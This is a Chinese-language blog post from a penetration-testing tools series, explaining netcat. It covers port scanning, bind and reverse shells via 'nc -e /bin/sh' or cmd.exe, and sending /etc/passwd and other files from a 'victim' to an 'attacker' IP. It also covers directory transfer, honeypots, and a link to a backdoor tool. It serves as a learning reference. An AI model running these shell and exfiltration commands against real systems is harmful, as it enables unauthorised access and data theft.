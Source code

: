 ```yaml
---
title: 【渗透神器系列】nc
date: 2017-04-10 10:36:01
comments: true
tags:
- nc
- 渗透神器
categories: 安全工具
permalink: 01
---
```

<blockquote class="blockquote-center">工欲善其事，必先利其器</blockquote>
　　从事渗透测试工作几年了，在做项目过程中发现良好的渗透技术固然重要，但欲测试出更多的结果，离不开强大的工具。即使是能力超强的大牛，我想也不可能完全手工做渗透，毕竟渗透测试还是个体力活。
　　现在有些人认为渗透测试越来越简单了，因为开源的自动化工具一大推，轮子也是更新换代。即使对安全一窍不通，只要上工具一跑也能获得很多漏洞，甚至自动化获取权限。我必须得承认目前层出不穷的自动化渗透工具已降低了这个行业的入门门槛，但这不意味着渗透测试工作日趋简单。
<!--more -->
　　首先我的理由是安全攻防永远是此消彼长，技术从未停滞过，安全技术永远领先于安全工具，因此只会使用工具，有时会使渗透测试工作很难开展下去，因为防护手段日益更新，而攻击技术却只能依赖滞后的工具，这样的测试效果可见一斑。其次是目前市面上强大的渗透工具，都需要一定的使用基础，绝非傻瓜式的操作，想要用好一款神器，也并非易事。综上所述，我个人认为目前渗透测试工作的难度反而会更大，并且随着国家企业对安全的重视，渗透测试从业者肩上的担子也只会更重。
　　开篇扯了半天蛋无非是想引出本系列的主题——渗透神器，之所以想要介绍记录渗透测试中使用的神器，是因为*工欲善其事，必先利其器*，仅此而已！
　　本篇作为此系列第一篇，将介绍一款渗透界经久不衰的神器，有瑞士军刀美誉的NC。本篇所记内容大部分来自互联网，如觉内容老套可自行绕道，本人尽量全方面记录NC的使用方法，全当个人查询之用，轻喷即可。

### nc Introduce
nc全称netcat,是网络工具中的瑞士军刀，它能通过TCP和UDP在网络中读写数据，功能强大。

### nc Install
linux/mac上默认安装nc，可在命令行下输入nc -h查看。
windows下可下载nc.exe工具使用。

### nc Usage

#### 基本用法
可以输入nc -h查看帮助：
> -h 查看帮助信息 
-d 后台模式 
-g gateway source-routing hop point[s], up to 8
-G num source-routing pointer: 4, 8, 12, ...
-e prog程序重定向，一但连接就执行［危险］ 
-i secs延时的间隔 
-l 监听模式，用于入站连接 
-L 监听模式，连接天闭后仍然继续监听，直到CTR+C 
-n IP地址，不能用域名(不使用DNS反向查询IP地址的域名)
-o film记录16进制的传输 
-p[空格]端口 本地端口号 
-s addr 本地源地址
-r 随机本地及远程端口 
-t 使用Telnet交互方式 
-u UDP模式 
-v 详细输出，用-vv将更详细 
-w 数字 timeout延时间隔 
-z 将输入，输出关掉（用于扫锚时）

#### PortScan(端口扫描)
基本tcp扫描：
```bash
nc -vv ip port
例：nc -vv 192.168.1.1 5000 扫描192.168.1.1的tcp 5000端口
```
设置延时，指定端口扫描：
```bash
nc -vv -w secs ip port-port
例：nc -vv -w 5 192.168.1.1 5000-5002 扫描192.168.1.1的5000-5002端口，网络超时的时间设为5秒。
```
#### 建立连接
##### 正向连接
目标监听一个端口：
```bash
nc -l -p port -e cmd.exe //windows
nc -l -p port -e /bin/sh //linux
```
本机去连接此端口：
```bash
nc ip port 
```
##### 反向链接
本机监听一个端口：
```bash
nc -vv -l -p port
```
目标连接此端口：
```bash
nc -e cmd.exe ip port //windows
nc -e /bin/sh ip port //linux
```
#### 传送文件
##### 目标机上下载文件
```bash
victim machine:
nc attack_ip port <  /etc/passwd
attacker machine:
nc -d -l -p  port  >  tmp
```
实例：
本机作为目标机，因为是内网ip，模拟现实情况，113.214.238.185为攻击机，现在就是要从目标机上下载文件到攻击机上。
目标机：nc.exe 113.214.238.185 9999 < H:\test.txt 将目标机H盘下test.txt文件传输到攻击机9999端口上
攻击机：nc.exe -d -l -p 9999 > test.txt 将本机9999端口传输过来的文件重命名为test.txt

##### 上传文件至目标机
```bash
attacker machine:
nc -d -l -p port < tmp
victim machine:
nc attack_ip port > tmp
```
实例：
攻击机：nc -d -l -p 9990 < test2.txt
目标机：nc 113.214.238.185 9990 > test2.txt

#### 端口数据抓包
```bash
nc -vv -w 2 -o test.txt thief.one 80 21-15
```
#### 自定义
配合|<等命令，可无限放大NC的功能。

##### 加密传输的数据
服务端：$nc localhost 1567 | mcrypt –flush –bare -F -q -d -m ecb > file.txt
客户端：$mcrypt –flush –bare -F -q -m ecb < file.txt | nc -l 1567

##### 目录传输
目标机：$tar -cvf – dir_name | nc -l 1567
攻击机：$nc -n 10.0.0.2 1567 | tar -xvf -

##### 命令记录
```bash
nc -vv victim_ip port < path\file.cmd
```
##### 搭建蜜罐
* nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止 
* nc -L -p 80 > c:\log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:\log.txt 
* nc -L -p 80 < c:\honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:\honeyport.txt中内容送入管道中，亦可起到传送文件作用 
* type.exe c:\honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:\honeyport.txt中内容送入管道中,亦可起到传送文件作用 

### 类nc工具
* ncat 安装nmap后默认安装ncat，用法于nc类似。
* [Pyshell](http://thief.one/2016/09/05/PyShell-%E6%9C%A8%E9%A9%AC%E5%90%8E%E9%97%A8/) 致敬nc的一款后门shell工具。

### 传送门
[【渗透神器系列】Fiddler](http://thief.one/2017/04/27/1)
[【渗透神器系列】nmap](http://thief.one/2017/05/02/1/)
[【渗透神器系列】搜索引擎](http://thief.one/2017/05/19/1)
[【渗透神器系列】WireShark](http://thief.one/2017/02/09/WireShark%E8%BF%87%E6%BB%A4%E8%A7%84%E5%88%99/)


参考文章：
https://www.oschina.net/translate/linux-netcat-command
http://www.w3cschool.cn/dosmlxxsc1/jiszug.html


>转载请说明出处:[【渗透神器系列】nc | nMask'Blog](http://thief.one/2017/04/10/1/)
本文地址：http://thief.one/2017/04/10/1/






